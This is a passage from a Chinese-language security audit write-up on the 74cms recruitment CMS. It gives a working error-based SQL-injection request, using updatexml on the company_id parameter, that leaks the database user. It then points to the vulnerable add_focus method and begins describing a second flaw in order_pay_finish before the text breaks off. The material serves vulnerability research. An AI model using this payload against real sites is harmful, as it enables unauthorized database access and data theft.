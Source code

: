 ```
http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a 
```

![image](../img/6227cc55f5b61af46b04e6f902098594.png)

看源码

![image](../img/840c47c0ac72c70cda5da0e334e6b0c0.png)

打开文件： 74cms\upload\Application\Common\Model\PersonalFocusCompanyModel.class.php
方法：add_focus(

![image](../img/8528c2805b49fcdf5f04bcd641c5fac7.png)

## 0x05 74cms独有框架漏洞第二处

文件：74cms\upload\Application\Home\Controller\CompanyServiceController.class.php
方法：order_pay_finish(
是否需登录：需要
登录权限：企业用户即可
看源码

